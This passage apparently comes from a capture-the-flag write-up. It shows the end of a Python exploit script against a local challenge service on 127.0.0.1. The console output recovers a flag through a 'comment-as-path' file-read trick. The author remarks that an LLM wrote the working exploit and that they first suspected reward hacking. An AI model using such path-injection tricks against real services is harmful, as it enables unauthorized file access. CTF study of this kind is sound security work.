 ```python
        if kv:
            print("Parsed fields:")
            for k in ("Author", "Comment", "Software"):
                if k in kv:
                    print(f"- {k}: {kv[k]}")
            if "Author" in kv:
                print(f"\nAuthor (MD5 of flag): {kv['Author']}")
        else:
            print(f"No parsable KV bundle. Raw chunk ({len(raw)} bytes)")

        # Second path: plaintext flag via comment-as-path trick
        try:
            plain = exploit_fetch_flag_via_comment(io)
            if plain:
                print(f"\nPlaintext flag via comment: {plain.decode('utf-8', errors='ignore')}")
            else:
                print("\nFailed to fetch plaintext flag via comment.")
        except Exception as e:
            print(f"\nError fetching plaintext flag via comment: {e}")
    finally:
        try:
            send_cmd(io, b"\x11")  # close session politely
        except Exception:
            pass
        io.close()


if __name__ == "__main__":
    main()
```

```console
[x] Opening connection to 127.0.0.1 on port 4265
[x] Opening connection to 127.0.0.1 on port 4265: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 4265: Done
Parsed fields:
- Author: 1B5B55E424237B0FF70D2DAE6D79F226
- Software: ico v0.1

Author (MD5 of flag): 1B5B55E424237B0FF70D2DAE6D79F226

Plaintext flag via comment: flag{WINNER_WINNER_CHICKEN_DINNER}

[*] Closed connection to 127.0.0.1 port 4265
```

My first thought upon running the script was that the LLM cheated.
I thought it was engaging in *reward hacking* and just opening the file on my local system.

But I read the code... and I read it again... and then I had three teammates test the code.

`Fuck.`
